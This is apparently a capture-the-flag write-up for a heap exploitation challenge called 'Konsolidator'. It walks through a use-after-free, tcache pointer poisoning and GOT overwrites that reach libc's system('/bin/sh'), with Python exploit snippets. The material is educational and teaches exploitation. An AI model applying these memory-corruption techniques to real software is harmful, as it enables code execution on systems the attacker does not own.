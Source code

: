 # Konsolidator
```
1. Add chunk
2. Change chunk size
3. Delete chunk
4. Edit chunk
5. Exit
>> 
```

This challenge is a bare bones heap exploitation challenge with no frills.

Before you can do anything, a random number of randomly sized chunks are allocated.
After that, you can allocate, free, and edit up to 8 chunks of whatever size you can, but you can't read their contents.
The sizes of the chunks are saved and the reads properly use them.
Lastly, you can edit a chunk's size, this changes both the saved size used for reads, and the actual size saved on the heap, flag bits and all; but ***you can only do it once***.

Internally, the program saves the chunks and the sizes on the stack in 2 arrays:
```c
void* chunks[8];
size_t sizes[8];
```
# Vulnerability
Well obviously the fact that you can edit a chunk's size is already a vulnerability, but actually I didn't use that feature at all.

Here's what the `delete` function does:
```c
void delete(void** chunks) {
    int64_t idx;
	
    printf("Index\n>> ");
    scanf("%ld%*c", &idx);
    if (idx > -1 && idx < 8)
        free(chunks[idx]);
    else
        puts("Invalid index");
}
```

It doesn't set `chunks[idx]` to `NULL`, so we have a UAF (Use After Free).
This is the only vulnerability I leveraged for my exploit.

The program has no RELRO nor PIE, but it has canary and NX enabled.
It runs on libc 2.31.
# Attack
First of all, disclaimer: my solution is unintended, the intended solution is using House of Muneyz.
But who cares about House of XXX anyway!!

It can be a bit overwhelming at first to think about how to obtain RCE without leaks, my thought process when solving this challenge wasn't immediately to gain RCE, but to obtain more control and expand on what i could do. So here goes.

My first thought was to try and corrupt a tcache forward pointer, but we have no leaks, so where could we point it? We can't point it to the binary's memory, or at any specific address in general, since tcache fd's are mangled and we would need a heap leak, so the best we can do is to do a partial overwrite and move it somewhere else on the heap.
The program uses `fgets` to read our input so even if we sent nothing we'd set the pointer's lowest 2 bytes to 0x000a, which is already "guessy" considering ASLR, but 1 in 16 times (when the heap is at 0x...0000) this will point to the start of the heap + 10.

So let's do this and see where it takes us:
```python
io = conn()

malloc(io, 0, 0xf8)
malloc(io, 1, 0xf8)
free(io, 0)
free(io, 1)

edit(io, 1, b'')
malloc(io, 0, 0xf8)
malloc(io, 0, 0xf8) 
```

Let's assume that it **has** worked from now on (the exploit script retries until it does).
So we have an allocation near the start of the heap, what can we do? Well, the very first chunk on the heap contains the tcache, which is actually just a struct that looks a bit like this:
```c
struct tcache {
    uint16_t bin_counters[N_BINS];
    void*    first_chunk [N_BINS];
};
```

The `bin_counters` field contains the number of freed chunk in each bin, and the `first_chunk` field contains the pointer to the first chunk in the bin (it's a singly-linked list, each chunk has a pointer to the next one).

For reference for whoever uses pwndbg, if you run `bins` via pwndbg to check the tcache, you'll see something like this:
```c
tcachebins
0x60  [  2]: 0x55705a2bf280 —▸ 0x55705a2bf220
0x200 [  7]: 0x55705a2beea0 —▸ 0x55705a2beca0 —▸ 0x55705a2beaa0 —▸ 0x55705a2be8a0 —▸ 0x55705a2be6a0 —▸ 0x55705a2be4a0 —▸ 0x55705a2be2a0 ◂— 0x0
```

That counter in the \[brackets\] and the first pointer (leftmost) are taken straight from that struct. And the first pointer, unlike the next ones, is NOT mangled.
Knowing this, with an allocation on top of this struct we're be able to modify the counters and pointers, so we can just set all the counters to a high number and keep setting the pointer to wherever we wanna go. We have infinite arbitrary allocations!

I wrote a nice lambda for overwriting the tcache, which i actually only ended up using once:
```python
# offsets:
# at 6 there's the first tcache counter (tcache[0x20])
# at 134 there's the first tcache pointer (tcache[0x20])
# pointers = dict[size, ptr]
set_pointers = lambda pointers: edit(io, 0, flat({
	6: flat({ ((size-0x20)//0x10)*2: 0xffff for size in pointers.keys() }, word_size=16, filler=b'\0'),
	134: flat({ ((size-0x20)//0x10)*8: ptr for size, ptr in pointers.items() }, filler=b'\0')
}, filler=b'\0'))
```

*I don't think* having arbitrary write on the binary's memory is enough to open a shell, so let's get some leaks!

Looking at the function to allocate chunks:
```c
void add(void** chunks, size_t* sizes) {
    int64_t idx;
    size_t size;
	
    printf("Index\n>> ");
    scanf("%ld%*c", &idx);
    if (idx > -1 && idx < 8) {
        printf("Size\n>> ");
        scanf("%ld%*c", &size);
        chunks[idx] = malloc(size);
        sizes[idx] = size;
    } else
        puts("Invalid index");
}
```

We can see that it passes a user-controlled `size_t` to malloc, so an 8 byte number. This made me realize i could just change malloc's GOT entry to puts' PLT function, which gives us arbitrary read!
I used this to read a GOT entry to leak libc:
```python
set_pointers({ 0xa0: exe.got.malloc })
malloc(io, 1, 0x98)
edit(io, 1, p64(0x401040))

# read got[free] to leak libc
malloc(io, 2, exe.got.free)
recv_list.pop()
recv_all(io)
libc.address = u64(io.r(6).ljust(8, b'\0')) - libc.sym.free
aleak("libc", libc.address)
```

And then i just overwrote malloc's GOT entry again, this time with system, and passed it the address of the /bin/sh string as a size:
```python
edit(io, 1, p64(libc.sym.system))
malloc(io, 2, libc.binsh())
```

And we're done!
This was a very cool challenge in my opinion, i loved solving it, though i don't know if i would have enjoyed it nearly as much if i had to solve it the intended way, finding the House of XXX.